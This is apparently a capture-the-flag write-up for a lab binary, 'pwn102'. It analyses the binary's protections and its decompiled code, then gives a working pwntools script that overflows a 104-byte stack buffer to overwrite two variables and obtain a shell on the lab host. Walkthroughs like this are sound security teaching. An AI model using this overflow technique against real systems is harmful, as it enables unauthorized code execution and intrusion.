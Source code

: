 ## Challenge 2
- Analyzing the binary.
```sh
checksec pwn102
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

strings pwn102
------snip------
I need %x to %x
Am I right? 
Yes, I need %x to %x
/bin/sh
------snip------
```
- We can see that there are a lot of protections present in the binary, apart from this we can see the program needs two specific values then it gives us /bin/sh.
- Analyzing the code using ghidra or any other tool of choice.
```c
void main(void)

{
  undefined local_78 [104];
  int local_10;
  int local_c;
  
  setup();
  banner();
  local_c = 0xbadf00d;
  local_10 = -0x11e2153;
  printf("I need %x to %x\nAm I right? ",0xbadf00d,0xfee1dead);
  __isoc99_scanf(&DAT_00100b66,local_78);
  if ((local_c == 0xc0ff33) && (local_10 == 0xc0d3)) {
    printf("Yes, I need %x to %x\n",0xc0ff33,0xc0d3);
    system("/bin/sh");
    return;
  }
  puts("I\'m feeling dead, coz you said I need bad food :(");
                    /* WARNING: Subroutine does not return */
  exit(0x539);
}
```
- From the code we can understand the following things.
    - There is a buffer of size 104 that is being declared.
    - The values in local_c, local_10 is being initialized with some values which are being compared with some other values that's why whatever we enter in the prompt it gives us "Feeling dead" message.

- In this case what we will do is first we will overflow the buffer with any random value and then we overwrite the variables values.

```python
from pwn import *

binary = context = ELF("pwn102-1644307392479.pwn102", checksec=False)

if args.REMOTE:
    p = remote('10.10.183.86', 9002)
else:
    p = process(binary.path)

payload = b"A"*104
arg1 = p32(0xc0d3)
arg2 = p32(0xc0ff33)

payload = b"".join(
    [
        payload,
        arg1,
        arg2
    ]
)
p.sendline(payload)
p.interactive()
# run this by python3 chal2.py REMOTE
```
- One thing to note is that we have to provide the local_10 valriable value first and then the other one, as when in stack the local_10 will go first and then local_c, this we can identify from the initalization time as well as the way ghidra has named them.
- One weird thing in the code that I faced was the packing of the payload using p32, while checking the binary using he file or readelf functionality they both showed that the binary is a 64bit one while when tried to pack using p64 I got error but p32 worked.
